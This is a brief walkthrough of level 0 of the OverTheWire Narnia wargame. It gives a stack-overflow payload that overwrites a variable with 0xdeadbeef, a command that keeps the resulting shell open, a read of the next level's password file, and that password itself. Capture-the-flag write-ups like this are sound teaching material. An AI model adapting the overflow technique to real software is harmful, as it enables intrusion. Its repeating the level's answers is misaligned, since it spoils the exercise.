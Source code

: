 # Narnia walkthrough

Initial:

Username: `narnia0`
Password: `narnia0`
URL: `https://overthewire.org/wargames/narnia/`

# Level 0

It is the classic stack overflow. In the stack for main function, first comes a `long val` and then comes the buffer who just takes in the user input. A bit of tweeking and it is clear that the following works:

```
echo -e "BBBBBBBBBBBBBBBBBBBB\xef\xbe\xad\xde" | ./narnia0
```

Look at the code however. The following:

```
    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }
```

The following command group works well `( echo -e "BBBBBBBBBBBBBBBBBBBB\xef\xbe\xad\xde"; cat; ) | ./narnia0`. Then `whoami` gives `narnia1` and a simple `cat /etc/narnia_pass/narnia1`.

Password: `efeidiedae`

